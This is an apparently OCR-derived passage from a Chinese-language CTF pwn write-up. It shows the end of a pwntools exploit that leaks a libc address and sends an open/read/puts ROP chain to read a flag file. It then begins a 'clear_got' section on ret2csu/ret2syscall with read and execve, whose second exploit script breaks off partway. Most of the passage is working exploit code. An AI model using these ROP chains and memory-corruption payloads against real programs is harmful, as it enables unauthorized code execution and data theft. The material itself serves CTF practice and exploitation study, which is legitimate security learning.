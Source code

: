 ```python
libc_base = u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))-libc.sym['write']
success("libc_base = "+hex(libc_base))

delete(0)
delete(1)
delete(2)
delete(3)
read_tcp(packtcp(1, "aaaa"))
read_tcp(packtcp(0x1001, "aaaa"))
read_tcp(packtcp(0x2001, "aaaa"))
pop_rdx = 0x000000000011c371+libc_base
bss = 0x404240
payload = 'b'*0x60+'b'*2+'b'*8
payload +=p64(pop_rdi)+p64(0)+p64(pop_rsi)+p64(bss)+p64(0)+p64(pop_rdx)+p64(0x6)+p64(0)+p64(libc_base+libc.sym['read'])
payload += p64(pop_rdi)+p64(bss)+p64(pop_rsi)+p64(0)+p64(0)+p64(libc_base+libc.sym['open'])
payload +=p64(pop_rdi)+p64(3)+p64(pop_rsi)+p64(bss)+p64(0)+p64(pop_rdx)+p64(0x30)+p64(0)+p64(libc_base+libc.sym['read'])
payload += p64(pop_rdi)+p64(bss)+p64(libc_base+libc.sym['puts'])# rorw
read_tcp(packtcp(0x3001, payload,'\x00'))
submit()
p.recv()
p.send("flag\x00")
p.interactive()
```



## clear_got(ret2csu/ret2syscall read+execve一波流）

![image-20220330161232884](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220330161232884.png)

溢出空间足够大，且自带syscall不考虑泄露地址

csu这一段不同程序略有不同

![image-20220330154922135](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220330154922135.png)

![image-20220330155736238](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220330155736238.png)

这是这道题的↓

![image-20220330160253189](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220330160253189.png)

```python
from pwn import *
# context.log_level = 'debug'
s       = lambda data               :p.send(data)
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(data)
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda name,data          :p.success(name + "-> 0x%x" % data)

p = process('clear_got')
elf = ELF('clear_got')
# libc = ELF('./libc64.so')

payload = 'a'*0x68
payload += p64(0x4007EA)# gadget2
payload += p64(0xc01c8)
# 后边会call bx*8 0xc01c8*8=0x600e40 
```